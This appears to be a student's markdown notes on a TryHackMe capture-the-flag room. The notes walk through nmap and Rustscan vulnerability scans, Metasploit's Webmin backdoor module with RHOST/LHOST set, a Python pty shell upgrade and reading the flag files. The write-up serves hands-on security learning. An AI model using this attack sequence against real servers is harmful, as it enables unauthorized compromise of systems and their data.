

# Source- Another TryHackMe Room 
 - [ ] Compromising a web server




## DNS Poisoning
 - We can instruct our system to direct us to a particular IP on requesting a specific domain.
 ``` sudo nano /etc/hosts
 ```
 
# The Attack

- Connect to the virtual environment of Tryhackme and start the machine
- So first we need to scan the target IP with nmap but as we have no idea about which port the website is running on, we need to scan all the ports(-p-) which would take a huge time to complete.
-  --script vuln -> To tag the vulnerabilities 
-  sudo nmap -Pn -p- -sV --script vuln -vv -oN src.txt
- in usr/share/nmap/scripts we may filter the ls command as ``` ls | grep vuln``` to see all the vulnerabilities to be checked.
-  ``` sudo tail -f src.txt -> to track a file progress realtime```
##  Rustscan - A nmap alternative 
- Releases->Assests(4 files)->deb file
- ```wget url```
- install the file after adding execution permission to it.
- Basic Usage-> -a for addresses , -- (nmap commands)
- ```sudo rustscan -a src.com -- --script vuln -oN rst.txt```
- runs the scan on open ports(22,10000).
- 10000 port is vulnerable.(Webmin file disclosure).
- rapid7--- a sophisticated framework with which we can exploit almost 70% internet with known vulnerabilities.
- open the db file
- check for the webmin version number with another nmap scan specifying the 10000 port
- filter the exploit lists in exploit.com using metasploit as author.
# For Running the exploit in the target machine
- open ``` msfconsole`	``
- ``` search Webmin```
- A list of exploits is generated
- we can write ```use 7  or info 7```
- We chose 7(backdoor) because we can change the password with it.
- ```show options```
- setting the LHOST and RHOST to carry out the attack by running the payload in the target machine.
- tun0 is LHOST IP as provided by thm.
- RHOST is the machine IP
- ```set RHOST .....  set LHOST ....```
- ```exploit```
- after changing the payload and setting the SSL(helps to establish client server connections), we are finally able to access the server and compromise the machine, but the terminal is unstable.
- ``` python -c 'import pty; pty.spawn("/bin/bash")'```
- ```export TERM=xterm```
- using cd .. and going to home directory to see users we can easily find root.txt and user.txt and complete the challenge.
